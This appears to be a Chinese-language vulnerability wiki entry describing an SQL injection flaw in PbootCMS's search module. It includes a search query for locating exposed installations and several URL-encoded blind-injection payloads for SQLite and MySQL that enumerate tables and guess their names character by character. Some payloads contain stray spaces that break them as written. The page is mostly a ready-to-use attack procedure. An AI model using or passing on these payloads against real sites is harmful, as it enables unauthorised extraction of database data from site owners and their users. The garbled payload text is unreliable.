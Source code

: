 # PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>PbootCMS <= 3.0.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="PBOOTCMS"</a-checkbox></br>

## 漏洞复现

本地搭建好最新版本,访问首页

![img](/assets/PeiQi-Wiki/img/1629446682012-1df0a2c6-c764-4f1f-a5ae-cb85fd927b7e.png)

我们需要访问一个存在的页面

url中13后加个单引号 '

![img](/assets/PeiQi-Wiki/img/1629446712199-bb42a36a-69b2-485a-b0e6-0512f775cf45.png)

若为执行sql报错相关,则漏洞存在

若显示下图

![img](/assets/PeiQi-Wiki/img/1629446812952-1dc35ab3-7379-424b-aad0-f8ad0629361c.png)

则漏洞无法利用

程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```plain
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```

![img](/assets/PeiQi-Wiki/img/1629447097101-67648843-6711-4cbc-a2f2-dfa5f6aaa6f9.png)

通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错

![img](/assets/PeiQi-Wiki/img/1629447283665-e890ddac-0cea-4447-a0ff-d42578145f93.png)

由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```plain
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a1%0aoffset%0a0)<8--
```

![img](/assets/PeiQi-Wiki/img/1629447585595-c411c868-fcff-4361-8a84-84596245407a.png)

猜解第一个表名称,我们可以使用如下payload:

```plain
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a1%0aoffset%0a0)%3d'a'--
```

![img](/assets/PeiQi-Wiki/img/1629447665612-0b0fe39d-b896-41d9-9904-cf760f2b516c.png)

这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```plain
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同

<a-alert type="success" message="(附: https://github.com/Catw0rld/vulner/issues/1)" description="" showIcon>
</a-alert>
<br/>